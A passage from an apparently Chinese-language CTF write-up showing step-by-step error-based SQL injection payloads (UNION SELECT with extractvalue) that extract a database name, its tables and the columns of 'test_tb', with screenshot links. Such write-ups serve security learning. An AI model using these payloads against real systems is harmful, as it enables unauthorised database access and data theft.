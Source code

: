 判断出列数等于3

**爆库**

```
1' union select 1,extractvalue(1,concat('~',(select database()))),3#
```

![image-20250803205048016](./NSSCTF-2.assets/image-20250803205048016.png)

**爆表**

```
1' union select 1,extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3#
```



![image-20250803205651372](./NSSCTF-2.assets/image-20250803205651372.png)

**爆列**

```
1' union select 1,extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='test_tb'))),3#
```

![image-20250803205823454](./NSSCTF-2.assets/image-20250803205823454.png)
